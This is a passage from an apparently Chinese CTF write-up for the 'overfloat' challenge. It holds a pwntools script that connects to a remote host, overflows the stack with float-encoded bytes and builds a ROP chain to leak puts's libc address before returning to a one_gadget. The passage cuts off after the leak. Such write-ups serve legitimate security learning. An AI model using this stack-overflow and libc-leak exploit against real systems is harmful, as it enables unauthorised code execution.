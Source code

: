 然后我们可以定义一个写入八字节的函数
最后利用方式就是利用gadget把puts的真实地址泄露出来，然后直接得到libc的基地址，最后直接返回到one_gadget就行了

详细脚本如下：

```
from pwn import *
import struct
import sys
import binascii

context(os='linux',arch='amd64',aslr = 'False')#,log_level='debug')
local = 0
#log_level='debug'

if local:
	p = process("./overfloat")#,env={'LD_PRELOAD':'./libc_x64.so.6'})
	elf = ELF("./overfloat")
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	#p = remote('192.168.210.11',11006)
	p = remote('47.92.28.22',30521)
	elf = ELF("./overfloat")
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')



def byte_to_float(data):
    if len(data) != 4:
        log.error("Length of data should be 4")
        sys.exit(0)
    return str(struct.unpack('f', bytes(data))[0])

def write_8_bytes(data):
    tosend = byte_to_float(data[:4])
    p.sendline(tosend)
    tosend = byte_to_float(data[4:])
    p.sendline(tosend)

p.recvuntil("LIKE TO GO?")
p.recvline()
for i in range(0xe):
    tosend = byte_to_float(chr(i)*4)
    p.sendline(tosend)

pop_rdi = 0x0000000000400a83 #: pop rdi; ret;

# ret
write_8_bytes(p64(pop_rdi))
# GOT
write_8_bytes(p64(elf.got["puts"]))
# call puts
write_8_bytes(p64(elf.symbols["puts"]))

# jump to beginning
start = 0x400993
write_8_bytes(p64(start))

p.sendline("done")
p.recvuntil("VOYAGE!")
p.recvline() # empty line
res = p.recvline()[:-1]
print("puts @  " + hex(u64(res.ljust(8, "\x00"))))
puts_address = u64(res.ljust(8, "\x00"))

```